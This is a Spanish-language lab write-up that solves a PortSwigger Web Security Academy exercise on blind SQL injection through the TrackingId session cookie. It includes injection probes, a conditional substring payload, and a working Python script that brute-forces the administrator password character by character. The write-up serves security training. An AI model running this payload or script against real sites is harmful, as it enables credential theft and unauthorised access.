









## Blind SQL injection with conditional responses

<p align="center">
  
</p>

Esta vez el ejercicio es distinto a los anteriores, el campo inyectable es un header de Cookie de sesión, por lo que debemos interceptar las peticiones con CAIDO o Burp Suite.

Accedemos al laboratorio y visualizamos la petición GET con CAIDO:

> Para ello necesitareis tener CAIDO (o Burp Suite) instalado, el plugin de Foxy Proxy e importar el certificado de CAIDO para dar confianza en conexiones https

<p align="center">
  
</p>

Mandamos la petición al Replay (o Repeater en caso de Burp Suite) mediante el atajo CTRL + R:

<p align="center">
  
</p>

Vamos a probar a realizar una inyección en el campo TrackingID del header Cookie:

<p align="center">
  
</p>

Vemos que no ha cambiado nada, así que vamos a tratar de forzar un error a ver si ocurre algo, para ello solo usamos `'` y observamos que el mensaje Welcome Back ha desaparecido:

<p align="center">
  
</p>

Vamos a poner ahora `'-- -`:

<p align="center">
  
</p>

Por lo que hemos podido comprobar, el comportamiento es consistente: cuando la consulta genera un error, el mensaje **“Welcome Back”** no se muestra; en cambio, si la consulta se ejecuta correctamente, el mensaje **“Welcome Back”** aparece.

En escenarios de **Blind SQL Injection**, este tipo de respuesta condicional es clave para inferir información de la base de datos. La práctica habitual consiste en automatizar el proceso mediante scripts en Python que permitan validar carácter por carácter los nombres de bases de datos, tablas, columnas o los propios datos de interés, basándose en las diferencias de respuesta de la aplicación.

```http
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-blind
```

Un ejemplo es la siguiente consulta:

```SQL
' and (select substring(username,1,1) from users where username='administrator')='a
```

> Si la primera letra del nombre de usuario administrator es igual a ***a*** entonces la consulta es válida y debería dar de resultado el mensaje Welcome Back:

Vamos a iniciar el script de Python, para ello nos creamos un entorno virtual:

```bash
python3 -m venv my_venv
source ./my_venv/bin/activate
which python3
```

<p align="center">
  
</p>

Instalamos las dependencias termcolor, requests y pwntools:

```python
pip3 install pwntools
pip3 install requests
pip3 install termcolor
```

Creamos un script en **Python** cuyo objetivo es extraer la contraseña del usuario `administrator`.

>El funcionamiento del script se basa en un **ataque de fuerza bruta carácter por carácter**. Para ello, utiliza un doble bucle anidado que va comprobando cada posición de la contraseña y probando distintos caracteres posibles hasta encontrar el correcto.

```python
#!/usr/bin/python3

from pwn import *
from termcolor import colored
import requests, signal, sys, time, string

# Función para controlar la salida con CTRL + C
def def_handler(sig, frame):
    print(colored("\n\n [!] Saliendo...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales del programa
main_url = 'https://0ace006503c99c1e801e4eea000e0012.web-security-academy.net/'
characters = string.ascii_lowercase + string.digits

# Función principal del programa (SQLI)
def makerequest():

    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password:")
    for position in range(1, 25):
        for character in characters:
            sqli_payload = "bIfCV7t1xhY7au4Q' and (select substring(password,%d,1) from users where username='administrator' limit 1 offset 0)='%s" % (position, character)
            cookies = {
                'TrackingId' : sqli_payload,
                'session' : 'p1ycuC4BwRrL3LT8ZoBxyex8XNCzobcJ'
            }
            p1.status(f"Probando {character} en posición {position}")

            r = requests.get(main_url, cookies=cookies)

            if "Welcome back!" in r.text:
                password += character 
                p2.status(password)
                break
    
if __name__ == '__main__':
    makerequest()
```

<p align="center">
  
</p>

Accedemos como el usuario administrator y resolvemos el laboratorio:

<p align="center">
  
</p>


